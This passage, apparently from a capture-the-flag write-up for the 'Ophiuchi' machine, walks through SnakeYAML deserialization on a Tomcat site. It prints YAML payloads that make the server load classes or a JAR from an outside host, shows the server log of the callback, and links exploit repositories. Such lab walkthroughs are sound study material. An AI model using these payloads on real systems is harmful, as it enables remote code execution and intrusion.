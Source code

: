 Despite the site saying it’s down, it’s not clear if that is displayed before
or after trying to deserialize the user input. I’ll try a YAML
derserialization payload just to check. Since the server is Tomcat, I’ll look
for Java-based payloads. In Googling “Java YAML deserialization”, there are a
handful of blog posts about the topic. [This
post](https://medium.com/@swapneildash/snakeyaml-deserilization-
exploited-b4a2c5ac0858) has a nice test to see if Java Yaml deserialization
would work, which when adapted for Ophiuchi becomes:

    
    
    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://10.10.14.7/"]
      ]]
    ]
    

I’ll start a Python webserver and put that into the form. On submitting,
there’s a request:

    
    
    oxdf@parrot$ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.227 - - [14/Feb/2021 16:33:34] code 404, message File not found
    10.10.10.227 - - [14/Feb/2021 16:33:34] "HEAD /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 404 -
    

This means the POC worked.

### RCE POC

The blog post now writes some Java code which it compiles into a `.class`
file, and generates a folder structure for this request. I had a bit of a
struggle getting that to work. I created the `/META-
INF/services/javax.script.ScriptEngineFactory` file and the compiled Class
file. Ophiuchi would read that and then request the class file, but then it
would crash the page and not show any evidence of executing my code.

Some Googling led to [this marshalsec
repo](https://github.com/mbechler/marshalsec) for all kinds of Java-based
deserialization attacks, and then the [yaml-
payload](https://github.com/artsploit/yaml-payload) repo, which focuses on
this specific SnakeYAML deserialization attack. The payload looks exactly the
same, but they put it into a JAR for loading. The YAML part now tries to load
a JAR file instead of a URL path:

    
    
    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://artsploit.com/yaml-payload.jar"]
      ]]
    ]
    

